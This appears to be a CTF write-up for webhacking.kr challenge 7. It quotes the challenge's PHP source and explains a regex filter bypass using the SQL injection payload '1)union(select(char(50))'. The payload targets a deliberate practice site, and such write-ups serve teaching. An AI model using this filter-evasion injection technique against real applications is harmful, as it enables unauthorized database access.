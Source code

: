Problem6
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-07/index.php?val=1>   
 
If you enter in the URL, you can see like the bottom photo.     
    
<img src="./image/1.png"/> 
    
Then, if you click the button named auth, the page will show "Access Denied".    
    
Thus, let's go to the view-source link.    

<img src="./image/2.png"/>    
     
### Let's pay attention to bottom the source code.   
    

```
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
```

We can know that if the value of $data[0] is 2, this problem is solved. 
    
```
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
```   

Let's go back to the front on the source code.    
The value of $go is stored by GET method, so we should input two(2) into <strong>"val"</strong> existing in the url. 
But, <strong>/2|-|\+|from|_|=|\\s|\*|\//i</strong> filter the input data that is (2, Operators, white space etc..). 
Thus, we can access to ASCII CODE, so the ascii value of 2 is 50.   

If you want to know about the <strong>Regular Expression</more>, refer to the bottom url.   
url: <https://developer.mozilla.org/ko/docs/Web/JavaScript/Guide/%EC%A0%95%EA%B7%9C%EC%8B%9D>     

```
select lv from chall7 where lv=($go)
```    
     
To put the value of 2 to $go in the query statment, we can enter the data like <strong>?val=1)union(select(char(50))</strong>.      
I used '(' or ')' because it is not filtered.   

```
select lv from chall7 where lv=(1)union(select(char(50)))
```
    
Through this, we can solve the problem number 7.    
The code produces the random value, so if you enter <strong>?val=1)union(select(char(50))</strong> a few times, it is solved.    

<img src="./image/3.png"/>     



    
